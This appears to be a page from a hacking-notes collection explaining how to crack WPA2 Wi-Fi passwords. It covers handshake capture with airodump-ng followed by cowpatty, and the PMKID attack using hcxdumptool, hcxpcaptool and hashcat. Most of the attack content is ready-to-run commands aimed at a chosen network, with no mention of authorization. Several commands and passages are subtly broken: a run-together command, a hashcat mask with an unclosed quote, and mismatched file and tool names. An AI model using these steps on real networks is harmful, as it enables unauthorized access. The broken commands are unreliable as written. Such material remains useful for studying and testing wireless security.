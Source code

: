 # WiFi

There are quite a few different security mechanism on wifi. And each of them require a different tactic. This article outlines the different strategies quite well. [http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/](http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/)

This is a great guide to the many different ways to hack wifi.

#### Checking what networks are available <a id="checking-what-networks-are-available"></a>

`sudo iwlist wlan0 scanning` - scans for wifis

#### Hacking WPA2-wifis Using airmon-ng and cowpatty <a id="hacking-wpa2-wifis-using-airmon-ng-and-cowpatty"></a>

What we are going to to here it basically just to record the 4-way handshake and then run a dictionary attack on it. The good part about this strategy is that you won't have to interfere to much with the network and thereby risk of taking down their wifi. The bad part is that if you run a dictionary attack there is always the possibility that the password just isn't in the list.

1. Start airmon-ng
   * `airmon-ng start wlan0`
   * This puts the network card in monitoring mode.
   * This will create a network interface that you can use to monitor wifi-action. This interface is usually called mon0 or something like that. You see the name when you run the command.
2. Run airodump to see what is passing through the air
   * Now we want to see what access points are available to us.
   * `airodump-ng -i mon0`
   * This would output something like this:

```text
CH 13 ][ Elapsed: 6 s ]

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

E8:DE:27:31:15:EE  -62       40       54    0  11  54e  WPA2 CCMP   PSK  myrouter
A7:B6:68:D4:1D:91  -80        7        0    0  11  54e  WPA2 CCMP   PSK  DKT_D24D81
B4:EE:B4:80:76:72  -84        5        0    0   6  54e  WPA2 CCMP   PSK  arrisNetwork

BSSID       STATION            PWR   Rate    Lost    Frames Probe

E8:DE:27:31:15:EE  D8:A2:5E:8E:41:75  -57    0e- 1    537     14
```

So what is all this?  
`BSSID` - This is the mac-address of the access point.  
`PWR` - Signal strength. The higher \(closer to 0\) the strength the stronger is the signal. In the example above it is myrouter that has the strongest signal.  
`Beacon` - This is kind of like a packet that the AP sends out periodically. The beacon contains information about the network. It contains the SSID, timestamp, beacon interval. If you are curious you can just analyze the beacons in wireshark after you have captured them.  
`#Data` - The number of data-packets that has been sent.  
`#/s` - Number of data-packets per second.  
`CH` - Channel  
`MB` - Maximum speed the AP can handle.  
`ENC` - Encryption type  
`CIPHER` - One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104. Not mandatory, but TKIP is typically used with WPA and CCMP is typically used with WPA2.  
`PSK` - The authentication protocol used. One of MGT \(WPA/WPA2 using a separate authentication server\(RADIUS\)\), SKA \(shared key for WEP\), PSK \(pre-shared key for WPA/WPA2\), or OPN \(open for WEP\).  
`ESSID` - The name of the network

Then we have another section of information.  
`Station` - MAC address of each associated station or stations searching for an AP to connect with. Clients not currently associated with an AP have a BSSID of “\(not associated\)”. So yeah, this basically means that we can see what devices are looking for APs. This can be useful if we want to create an evil twin or something like that.

1. Find the network you want to access.
   * `airodump-ng --bssid A7:B6:68:D4:1D:91 -c 11 -w cowpatty mon0`
   * So this command will record or traffic from the device with that specific MAC-address. -c defines the channel. and `-w cowpatty` means that we are going to save the packet capture with that name. Now we just have to wait for a user to connect to that network. And when he/she does we will record that handshake. We know that we have recorded a handshake when this appears `CH 11 ][ Elapsed: 19 hours 52 mins ][ 2016-05-19 17:14 ][ WPA handshake: A7:B6:68:D4:1D:91` Now we can exit airodump, and we can see that we have a cap-file with the name cowpatty-01.cap. That is our packet-capture, and you can open it and study it in wireshark if you like.
2. Crack the password.
3. Now that we have the handshake recorded we can start to crack it. We can do that by using the program cowpatty.
4. `cowpatty -f /usr/share/wordlists/rockyou.txt -r cowpatty-01.cap -s DKT_D24D81` Then we just hope for the best.

### PMKID <a id="pmkid"></a>

The RSN IE is an optional field that can be found in 802.11 management frames. One of the RSN capabilities is the PMKID.

The PMKID is computed by using HMAC-SHA1 where the key is the PMK and the data part is the concatenation of a fixed string label "PMK Name", the access point's MAC address and the station's MAC address.

Since the PMK is the same as in a regular EAPOL 4-way handshake this is an ideal attacking vector.

We receive all the data we need in the first EAPOL frame from the AP.

```text
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```

**Note:** The following method does not change the time in takes to crack the password, it simply makes the method to obtain the password much easier. Further details are in the hashcat link below.

Why Easier:

* No more regular users required - because the attacker directly communicates with the AP \(aka "client-less" attack\)
* No more waiting for a complete 4-way handshake between the regular user and the AP
* No more eventual retransmissions of EAPOL frames \(which can lead to uncrackable results\)
* No more eventual invalid passwords sent by the regular user
* No more lost EAPOL frames when the regular user or the AP is too far away from the attacker
* No more fixing of nonce and replaycounter values required \(resulting in slightly higher speeds\)
* No more special output format \(pcap, hccapx, etc.\) - final data will appear as regular hex encoded stringairmon-ng check kill

1.\) Run hcxdumptool to request the PMKID from the AP and to dump the received frame to a file \(in pcapng format\).

```text
/opt/hcxdumptool/hcxdumptool -o Target.pcapng -i wlan0 --filterlist=TargetBSSID.txt --filtermode=2
```

The TargetSSID.txt files contains the MAC addresses \(BSSIDs\) of the target without colons. Also there is an indicator at the bottom of the interface that states "pwned." This will indicate the number of hashes obtained. It is recommended to have this run for at least 10 minutes.

2.\) Run hcxpcaptool to convert the captured data from pcapng format to a hash format accepted by hashcat.

```text
 ./hcxpcaptool -z  Target.16800 /opt/hcxdumptool/Target.pcapng
```

This takes in the in capture file, parses it and outputs the format \(16800\) in one that hashcat can interpret.

3.\) Run hashcat to crack it.

```text
./hashcat -m 16800 Target.16800 -a 3 -w 3 '?l?l?l?l?l?lt!
```

The above is obviously a simplified version as this can be vastly tailored by information obtained from the target

### Example hash <a id="example-hash"></a>

```text
2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a
```

The columns are the following \(all hex encoded\):

* PMKID
* MAC AP
* MAC Station
* ESSID

### Further digging <a id="further-digging"></a>

If you want to analyze your pcap for the RSN PMKID, the filter for wirshark is

```text
wlan.rsn.ie.pmkid
```

### Notes <a id="notes"></a>

Depending how long you have hcxpcaptool running, you may obtain multiple differing hashes for a single targeted AP. This is because it will keep sending messages and the slight modifications are due to the replay counter and nonce changes in each subsequent submission. This prevents replay attacks using the hash. However, the different hashes will all crack to the same PSK at the end of the day.

